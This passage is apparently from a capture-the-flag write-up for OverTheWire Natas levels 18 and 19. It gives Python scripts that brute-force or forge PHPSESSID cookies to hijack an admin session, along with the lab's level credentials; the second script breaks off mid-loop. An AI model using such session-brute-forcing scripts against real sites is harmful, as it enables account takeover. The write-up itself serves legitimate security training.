 The code looks complex but it's not. Basically, we just need to bruteforce the **PHPSESSID** of the admin which is a value between 0 and 640 (`$maxid`). So, here is a quick script to do that !

```python
import requests

url = "http://natas18.natas.labs.overthewire.org"
url2 = "http://natas18.natas.labs.overthewire.org/index.php"

s = requests.Session()
s.auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')
r = s.get(url)

for x in range(640):
    cookies = dict(PHPSESSID=str(x))
    r = s.get(url2, cookies=cookies)
    if "Login as an admin to retrieve" in r.text:
        pass
    else:
        print(r.text)
        break
```

Here is the result :
```text
4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

## Natas 19 Solution

**URL :** [http://natas19.natas.labs.overthewire.org](http://natas19.natas.labs.overthewire.org) <br/>
**Credentials :** *natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs*

Here, we don't have the source code but the challeng says : *"This page uses mostly the same code as the previous level, but session IDs are no longer sequential..."*. Let's take a look at our cookie :

```text
Cookie: PHPSESSID=3235352d61646d696e
```

Hum... It looks like ASCII, let's decode it :

```text
255-admin
```

As per the challenge instruction, I just slightly modified my previous code to match the new cookie format :

```python
import requests
import binascii

url = "http://natas19.natas.labs.overthewire.org"

s = requests.Session()
s.auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')

for x in range(1000):
    tmp = str(x) + "-admin"
    val = binascii.hexlify(tmp.encode('utf-8'))

    cookies = dict(PHPSESSID=val.decode('ascii'))
    r = s.get(url, cookies=cookies)
    if "Login as an admin to retrieve" in r.text:
        pass
    else:
```